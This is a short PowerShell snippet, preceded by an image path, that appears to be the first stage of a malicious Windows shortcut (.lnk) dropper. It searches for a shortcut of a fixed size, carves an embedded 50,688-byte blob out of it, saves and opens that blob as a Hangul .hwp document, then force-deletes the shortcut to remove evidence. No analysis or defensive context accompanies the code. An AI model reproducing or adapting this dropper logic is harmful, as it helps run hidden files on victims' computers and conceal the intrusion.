 $lk=ls -Path '.\' -filter '*.lnk';

for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$lk=$lk[$a].name;break}}
$n=$lk.Replace('.lnk','.hwp');
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$lk=$lk[$a].name;break}}
};

$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];
$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);

&".\\$fsdf";

ri ".\\$lk" -force;




